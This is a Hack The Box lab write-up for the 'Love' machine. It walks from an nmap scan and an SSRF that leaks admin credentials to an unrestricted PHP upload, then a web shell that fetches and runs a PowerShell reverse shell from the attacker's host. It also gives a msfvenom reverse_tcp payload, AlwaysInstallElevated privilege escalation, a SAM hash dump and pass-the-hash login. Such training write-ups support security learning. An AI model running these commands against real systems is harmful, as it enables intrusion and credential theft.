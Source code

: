 ![](love_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.239 love.htb

**nmap scan:**
```bash
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq: 
|_    Host '10.10.15.71' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-06-25T08:37:23+00:00; -5h04m42s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized
```

* Information leak from https ssl certificate. 
  * **Subdomain:** `staging.love.htb` 
  * **Username:** `roy@love.htb`
* No other subdomain found: `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -H 'Host: FUZZ.love.htb' -u http://love.htb/ -ac -c -v`
* port `5000` and `443` gives "403 Forbidden"
* Can't connect to SMB without password.

* **Host: `love.htb`** asking for username:password

  ![](screenshots/love.png)

* **Subdomain `staging.love.htb`** have signup option which don't go anywhere,

  ![](screenshots/staging-love.png)

but there is a `/beta.php` which allows to fetch urls, and also allows SSRF.

![](screenshots/demo-ssrf.png)

with that we can access to port `5000` and `443` which gives "403 Forbidden", because both are on save host.

port `443` https don't response anything but port `5000` repsonse with admin creds.

![](screenshots/vote-admin-creds.png)
<!--admin:@LoveIsInTheAir!!!!-->

* successful login to `http://love.htb/admin` with found creds. *It was just a guess. If I don't get admin login in `/admin`, than I'll run gobuster.*

# Foothold

## File upload to RCE

Found file upload option in `/admin/voters.php` and `/admin/candidates.php`

Try to upload php shell from `/voters.php`
```php
<?php echo exec("whoami"); ?>
```

![](screenshots/file-uploading.png)

and file uploaded successfully without any restrication and upload file found in the `/images` directory

![](screenshots/file-uploaded.png)

![](screenshots/file-executed.png)

Getting reverse shell with [PayloadsAllTheThings powershell payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) and [nishang revshell ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Create `shell.php`, which Invoke nishang revshell ps1 script from http server.
```bash
<?php echo exec("powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/powerShellTcp.ps1')"); ?>
```

upload `shell.php`, start http server and get reverse shell.

![](screenshots/web-shell.gif)

Get msf shell with msfvenom paylaod
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f psh -o msf_shell.ps1
```

Execute
```bash
IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/msf_shell.ps1')
```

# Privesc

## abusing `AlwaysInstallElevated` policy

Running winpeas found **AlwaysInstallElevated** enable.

![](screenshots/winpeas.png)

**AlwaysInstallElevated** If these 2 registers are enabled (value is 0x1), then users of any privilege can install (execute) **`*.msi`** files as **`NT AUTHORITY\SYSTEM`**.
```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![](screenshots/always-install.png)

* Exploit from [hacktricks.xyz](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated)
* Multiple ways to exploit from [hackingarticles.in](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/)


**Exploit with metasploit**
```bash
exploit/windows/local/always_install_elevated
```

![](screenshots/love-rooted.png)

**Dump NTLM hash**
```bash
meterpreter > load kiwi
meterpreter > lsa_dump_sam

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: aab42ca009fed69fa5ee57c52cf5bcf1

#login with evil-winrm
evil-winrm -u Administrator -H aab42ca009fed69fa5ee57c52cf5bcf1 -i 10.10.10.239
```
